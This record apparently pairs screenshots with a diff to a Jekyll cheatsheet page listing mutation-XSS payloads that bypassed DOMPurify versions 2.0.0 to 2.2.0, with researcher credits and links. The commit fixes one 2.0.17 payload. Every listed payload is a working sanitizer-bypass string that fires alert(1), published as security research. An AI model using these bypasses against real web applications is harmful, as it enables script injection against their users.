

Before and after one commit to SonarSource/mxss-cheatsheet, a Jekyll site: the page built from examples.md, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Fix 2.0.17 payload in examples.md (#5)

```diff
--- a/examples.md
+++ b/examples.md
@@ -9,7 +9,7 @@ This page contains some examples of payloads used to bypass sanitizers in the pa
 | Version | Payload                                                                                                                            | Credit                                             | Additional links                                                                                                                        |
 |---------|----------------------------------------------------------------------------------------------------------------------------------  |----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
 | 2.0.0   | `<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">`                                                                    | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/dompurify-bypass-using-mxss/> |
-| 2.0.17  | `<form><math><mtext><form><mglyph><style></math><img src onerror=alert(1)></style></mglyph></form></mtext></math></form>`          | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/> |
+| 2.0.17  | `<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>`                                                 | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/> |
 | 2.0.17  | `<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">`     | Gareth Heyes [@garethheyes](https://twitter.com/garethheyes) | <https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss> |
 | 2.0.17  | `<math><mtext><table><mglyph><style><math><table id=”</table>”><img src onerror=alert(1)”>`                                        | [@sqrtrev](https://twitter.com/sqrtrev) [@0xParrot](https://twitter.com/sqrtrev) @web_payload team [@GuesserSuper](https://twitter.com/GuesserSuper) | <https://twitter.com/0xsapra/status/1307929537749999616?ref_src=twsrc%5Etfw> |
 | 2.2.0   | `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">`                        | Daniel Santos [@bananabr](https://twitter.com/bananabr) | <https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f>  |
```
